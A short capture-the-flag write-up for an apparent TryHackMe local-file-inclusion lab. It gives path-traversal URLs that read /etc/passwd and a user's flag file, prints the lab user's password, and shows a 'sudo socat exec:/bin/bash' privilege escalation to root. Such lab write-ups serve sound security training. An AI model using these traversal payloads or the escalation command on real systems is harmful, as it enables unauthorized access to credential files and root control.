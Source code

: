 ### LFI Inclusion TryHackMe

## Nmap scans

`Open ports:
22 			
80			## LFI attack
`

## Information collection
http://machineip/article?name=../../../../../../../../../../etc/passwd

We see a user named falconfeast. And we also have his password: 

___falconfeast: rootpassword___


##User Flag and Getting a shell
Now we can get the user flag using LFI like this:
http://machineip/article?name=../../../../../../../../../../home/falconfeast/user.txt

OR 

We can login to the machine which we will have to do it anyway.

## Priv-esc

We get the first flag from this.

now running `sudo -l` --> we see we can run /usr/bin/socat as root

So we go to gtfobins for sudo command to directly get root access.

sudo /usr/bin/socat stdin exec:/bin/bash

Now we can get the root flag.
